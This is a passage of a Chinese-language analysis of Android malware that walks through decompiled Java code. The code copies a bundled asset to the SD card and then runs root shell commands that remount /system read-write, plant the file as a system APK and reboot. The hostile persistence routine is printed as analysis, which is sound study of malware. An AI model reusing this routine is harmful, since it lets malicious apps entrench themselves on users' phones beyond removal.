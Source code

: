 ```java
    Button localButton = this.b;
    ButtonClickListener localButtonClickListener = new ButtonClickListener();
    localButton.setOnClickListener(localButtonClickListener);
    try
    {
      StringBuffer localStringBuffer = new StringBuffer();
      d(this.path + "/zihao.l");
      return;
    }
    catch (IOException localIOException)
    {
    }
  }
```
> this.path是当前内存卡的路径,也就是内存卡路径然后拼接zihao.l这个字符串，传给了d方法，并且模拟点击了ButtonClickListener，我们先来看看d方法。
> 
```java
  private void d(String paramString)
    throws IOException
  {
    FileOutputStream localFileOutputStream = new FileOutputStream(paramString);
    InputStream localInputStream = getAssets().open("ijm-x86.so");
    byte[] arrayOfByte = new byte[1024];
    for (int i = localInputStream.read(arrayOfByte); ; i = localInputStream.read(arrayOfByte))
    {
      if (i <= 0)
      {
        localFileOutputStream.flush();
        localInputStream.close();
        localFileOutputStream.close();
        return;
      }
      localFileOutputStream.write(arrayOfByte, 0, i);
    }
  }
```
> 把ijm-x86.so文件复制到了sd卡中，并且命名为zihao.l
> 再来看看ButtonClickListener的点击事件。
```java
    private final class ButtonClickListener
    implements View.OnClickListener
  {
    public ButtonClickListener()
    {
    }

    @Override
    public void onClick(View paramView)
    {
      b localb = new b();
      localb.rootShell();
      a.deleteFile(c.this.file);
    }
  }
```
>执行了b对象中的rootShell方法。我们继续跟进。
```java
  void rootShell()
  {
    execCommand(new String[] { "mount -o rw,remount /system", "mount -o rw,remount /system/app", "cp /sdcard/zihao.l /system/app/", "chmod 777 /system/app/zihao.l", "mv /system/app/zihao.l /system/app/zihao.apk", "chmod 644 /system/app/zihao.apk", "reboot" }, true);
  }
```